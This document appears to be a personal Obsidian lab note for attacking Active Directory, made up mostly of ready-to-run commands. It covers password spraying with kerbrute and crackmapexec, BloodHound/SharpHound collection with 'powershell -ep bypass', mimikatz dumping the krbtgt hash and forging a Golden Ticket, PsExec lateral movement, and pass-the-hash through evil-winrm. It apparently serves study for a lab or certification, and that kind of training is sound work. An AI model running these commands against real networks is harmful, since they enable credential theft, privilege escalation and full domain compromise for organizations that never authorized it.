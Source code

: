 #show
<%*
const path = tp.file.folder(true).split('/');
const filename = "2_B_AD_" + path[path.length - 1];
await tp.file.rename(filename);
tR += "Part of " + "[" + "[" + "0_Lab_" + path[path.length - 2] + "]]";
-%>

# Password spraying
Check for AD account lockout policy
```powershell
net accounts
```
If not set, we can try to spray AD passwords by two means:
- `.\Spray-Passwords.ps1 -Pass Nexus123! -Admin` (see `~/Documents/activeInformationGathering`)
- `kerbrute passwordspray -d corp.com .\usernames.txt "Password"` (cross-platform but requires UDP. Text file must be ANSI, else network error)
- `crackmapexec smb $hip -u $user -p '$password' -d corp.com --continue-on-success`
# BloodHound
1. **Setup C2 (Kali)**
```bash
(sleep 15 && bloodhound)& export PS1="$PS1\[\e]0;BloodHound\a\]"; sudo -b neo4j console
```
Enter root-pw into console. Use `neo4j:wandton` as login. If this doesn't work, login to `http://localhost:7474` with `neo4j:neo4j` and change password

One must also transfer the SharpHound script or executable to the victim ([[2_fileTransfer]]). They are in `/ftphome/`

2. **Collect data (Victim)**
```powershell
powershell -ep bypass
```

```powershell
.\SharpHound.exe --CollectionMethods All
```
or
```powershell
Import-Module .\Sharphound.ps1; Invoke-BloodHound -CollectionMethod All -OutputDirectory $dir
```
(Both gather all data except for local group policies.)

When done, transfer the .zip to kali ([[2_fileTransfer]])

3. **Analyze data (Kali)**
	1. In the Web-Interface, use the "Upload Data" function to upload the .zip
	2. Click the "More Info" tab on the top left. Change to tab "Analysis"
	3. Enter `MATCH (m:Computer) RETURN m` as raw query on the bottom. Right-click the node and select "Mark as Owned"
	4. Same for `m:User`
	5. Run the following analysis:
		1. _Shortest Paths to Domain Admins from Owned Principals_
		2. _Find Workstations where Domain Users can RDP_
		3. _Find Servers where Domain Users can RDP_
		4. _Find Computers where Domain Users are Local Admin_
	6. Check Relation-Ships with `MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p`
	Tips: Use the Control-Key to show information about all nodes. Look for the "?" Help menu, it also contains abuse possibilities.

# Yet-to-test attacks



##### Golden Ticket with mimikatz
Enter mimikatz
```
privilege::debug
```
Save Domain ID (sid), Primary NTLM
```
lsadump::lsa /inject /name:krbtgt
```
Create Golden Ticket (saved to ticket.kirbi)
```
kerberos::golden /user:Administrator /domain:%dns% /sid:%sid% /krbtgt:%ntlm% /id:500
```
Open a CMD with elevated privileges to all machines
```
misc::cmd
```
Runs cmd.exe on $machine (Needs PsExec.exe - you can scp) 
```powershell
PsExec.exe \\$machine cmd.exe
```

##### Pass-The-Hash Attack
```
evil-winrm -i $hip -u $user -H $hash
```
